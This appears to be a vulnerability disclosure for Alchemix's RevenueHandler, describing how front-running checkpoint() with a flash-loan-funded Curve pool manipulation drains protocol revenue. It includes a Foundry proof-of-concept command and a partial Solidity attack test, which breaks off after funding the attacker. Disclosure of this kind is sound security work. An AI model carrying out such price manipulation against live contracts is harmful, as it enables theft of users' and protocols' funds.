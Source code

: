 With the exchange rate of `10 ETH` == `10.12 alETH` used in the tests, we prove in a PoC attached to this report that losses are ~1.14% of the protocol's revenue every epoch.

Currently, the exchange rate in Curve is `10 ETH` == `11.02 alETH`.

Exploiting this attack vector in current market conditions for a `10 ETH` protocol revenue leads to losing close to **~9.26% of protocol revenue** (*1.02 alETH*). 
> The protocol should receive *11.02 alETH* but only receives *10 alETH*.

The economic damage of this attack vector keeps increasing every time the price of *alETH* decreases.

## Requirements

Anyone can call `RevenueHandler.checkpoint()` so flash loans can be used to fund the attack. No capital or permissions are required to execute it.

## Impact Details
Loss of funds.

        
## Proof of concept
## Proof of Concept

We modified your current `testCheckpointETH()` in `alchemix-v2-dao/src/test/RevenueHandler.t.sol`, adding the price manipulation before and after the checkpoint, to demonstrate the impact of the exploit.

Remember to run the code with the correct block number (the one used in your tests: 17133822)

We run the test executing:
```
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-test testSlippageCheckpointETH --fork-block-number 17133822 -vv
```
> Replace {API_KEY} with your API key.

The code for the test:
```javascript
    function testSlippageCheckpointETH() external {

        address[] memory alethCrvTokenIds = new address[](2);
        alethCrvTokenIds[0] = address(weth); // eth
        alethCrvTokenIds[1] = aleth;

        CurveEthPoolAdapter alethCpa = new CurveEthPoolAdapter(alethcrv, alethCrvTokenIds, address(weth));

        revenueHandler.addRevenueToken(address(weth));
        revenueHandler.setDebtToken(address(weth), aleth);
        revenueHandler.setPoolAdapter(address(weth), address(alethCpa));

        uint256 revAmt = 10e18;
        _accrueRevenue(address(weth), revAmt);

        // --------------------------------------------------------------------------
        // | Attack starts: Manipulate price pool by front-running the checkpoint() |
        // --------------------------------------------------------------------------

        // Get address of attacker
        address attacker = address(0x123);
        
        // Fund attacker
        uint256 inputAmount = 1500e18;
        deal(attacker,inputAmount);
```
